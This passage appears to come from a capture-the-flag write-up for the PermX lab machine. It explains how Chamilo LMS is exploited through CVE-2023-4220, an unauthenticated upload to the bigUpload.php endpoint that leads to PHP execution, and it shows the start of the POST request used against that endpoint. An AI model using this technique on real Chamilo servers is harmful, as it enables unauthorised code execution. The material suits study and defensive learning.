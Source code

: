 This found 'lms.permx.htb'. I added it to my hosts file and took a look at it.

## Chamilo

This domain was running the [Chamilo E-Learning software](https://chamilo.org/en/). 

![Chamilo](/assets/images/2024/11/PermX/ChamiloLogin.png "Chamilo")

A quick search showed that it had an [unauthenticated remote code execution vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2023-4220) in its file upload functionality. You could access the `bigUpload.php` endpoint without being authenticated and use it to upload any files. Then you could access the new file directly. So it was easy to upload a PHP file and get it to execute any code you wanted.

I found a [POC](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS) to exploit the vulnerability. But it was simple to exploit directly in Caido.

I started by uploading a simple PHP script to validate that it worked.

```http
POST /main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported HTTP/1.1
Host: lms.permx.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: ch_sid=m28csg3c9iartsjn9vu1o1otvq
If-Modified-Since: Sat, 20 Jan 2024 18:20:39 GMT
If-None-Match: "55ee-60f64a75fc4e2-gzip"
Priority: u=4
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 23

```